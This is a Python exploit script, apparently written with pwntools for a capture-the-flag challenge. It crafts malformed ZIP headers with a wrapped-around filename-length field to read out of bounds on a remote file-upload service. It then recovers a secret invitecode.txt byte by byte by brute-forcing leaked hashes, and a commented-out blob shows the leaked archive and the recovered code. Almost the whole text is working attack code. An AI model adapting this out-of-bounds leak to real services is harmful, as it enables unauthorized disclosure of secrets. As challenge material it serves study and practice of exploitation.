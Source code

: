 ```py


def fake_zip_by_offset(offset: int, fid: int):
    """
    """
    fake_zip = bytearray(0x1e + 0x60)
    fake_zip[:4] = b'PK\x03\x04'

    # sz_content
    fake_zip[0x12:0x16] = p32(10)
    # sz_fname
    fake_zip[0x1a:0x1e] = p32(2**32 - offset - 0x204 * (fid - 1))
    # fake_zip[0x1e:0x1e + 8] = 

    return fake_zip



def leak_invitecode(start_offset = 0x170, known_content = p8(0) * 0xa):
    for fid in tqdm(range(1, 0x40)):
        offset = start_offset + fid - 1
        fake_zip = fake_zip_by_offset(offset, fid)
        # upload myfile
        conn.sendlineafter(b">", b"4")
        conn.sendlineafter(b"?", b"15")
        conn.sendlineafter(b"one uncompressed file", fake_zip.hex().encode())

    # list files
    conn.sendlineafter(b">", b"2")
    conn.sendlineafter(b"?", b"15")

    conn.recvline_contains(b"invitecode.txt", keepends=False)

    while fid_line := conn.recvline(keepends=False).decode():
        fid_hash: int = int(fid_line.split()[-1], 16)

        # print(f"{fid_hash = :x}")
        for guess in range(0x100):
            guess_line = p8(guess) + known_content[:0xa - 1]
            if fid_hash == calc_hash(guess_line, 0xa):
                known_content = p8(guess) + known_content
                # print('\r', known_content, end='')
                break
        else:
            print(f'warning: not guessed: {fid_line}')

    return known_content

# every time start offset + 0x3f

# print(leak_invitecode(start_offset=0x170 + 0x3f * 3, known_content=b'\x00\x00@\x00\x00\x00\xb6\x00\x00\x00PK\x03\x04\n\x00\x00\x00\x00\x00T`\x97YL\xf1\xa5\xee\x14\x00\x00\x00\x14\x00\x00\x00\x0e\x00\x00\x00invitecode.txtyelling-pixel-coralsPK\x01\x02?\x00\n\x00\x00\x00\x00\x00T`\x97YL\xf1\xa5\xee\x14\x00\x00\x00\x14\x00\x00\x00\x0e\x00$\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00\x00\x00\x00\x00invitecode.txt\n\x00 \x00\x00\x00\x00\x00\x01\x00\x18\x00u\x97\x18\xdbdU\xdb\x01+\xdc\xa4\xdbdU\xdb\x01`\xcaX,dU\xdb\x01PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00`\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'))


INVITE_CODE = 'yelling-pixel-corals' if 'r' in argv else 'terrible-red-busses'

# create user
conn.sendlineafter(b">", b"3")
```
